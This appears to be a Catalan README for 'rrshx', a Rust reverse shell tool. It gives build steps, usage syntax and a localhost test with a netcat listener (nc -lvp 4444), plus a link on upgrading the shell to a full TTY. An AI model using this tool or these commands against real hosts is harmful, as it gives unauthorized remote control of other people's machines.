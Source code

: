 ## rrshx - Rust Reverse Shell for Linux And Mac 
Que és una Reverse Shell? [https://en.wikipedia.org/wiki/Shell_shoveling](https://en.wikipedia.org/wiki/Shell_shoveling).

Utilització: **./rrshx [ip] [port]**

Exemple: **./rrshx 127.0.0.1 4444**

**Complilar a partir del codi font**

git clone https://github.com/jc4st3lls/rrshx.git

cd rrshx

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**

Instal.lem Netcat a linux o mac. Un cop instal.lat, en un terminal l'engeguem.

**nc -lvp 4444**

Obrim un altre terminal i executem el binari compilat
**./rrshx 127.0.0.1 4444**

Si volem provar des del codi font **cargo run -- 127.0.0.1 4444**

El que conseguim és una shell en el terminal on hem engegat el netcat. Però, no és un terminal com a tal (tty). Les aplicacions que requereixen d'un terminal (tty) no funcionen correctament. Hem d'entendre que passem streams de dades des del client (rrshx) al servidor (nc).

[https://es.wikipedia.org/wiki/Tty_(Unix)]( https://es.wikipedia.org/wiki/Tty_(Unix) )


[https://es.wikipedia.org/wiki/Emulador_de_terminal]( https://es.wikipedia.org/wiki/Emulador_de_terminal )


Per solventar aquest problema, hi ha diferents tècniques. Deixo enllaç que us pot ajudar.

[https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/]( https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/ )


